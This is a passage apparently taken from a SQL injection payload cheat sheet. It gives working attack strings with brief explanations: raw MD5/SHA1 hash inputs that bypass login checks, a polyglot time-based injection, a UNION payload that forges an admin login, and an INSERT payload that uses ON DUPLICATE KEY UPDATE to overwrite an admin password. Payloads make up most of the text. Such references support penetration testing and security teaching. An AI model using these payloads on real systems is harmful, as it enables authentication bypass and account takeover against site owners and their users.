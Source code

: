 ## Authentication Bypass (Raw MD5 SHA1)

When a raw md5 is used, the pass will be queried as a simple string, not a hexstring.

```php
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

Allowing an attacker to craft a string with a `true` statement such as `' or 'SOMETHING`

```php
md5("ffifdyop", true) = 'or'6�]��!r,��b
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```

Challenge demo available at [http://web.jarvisoj.com:32772](http://web.jarvisoj.com:32772)

## Polyglot injection (multicontext)

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/

/* MySQL only */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```

## Routed injection

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

## Insert Statement - ON DUPLICATE KEY UPDATE

ON DUPLICATE KEY UPDATE keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

```sql
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!
```
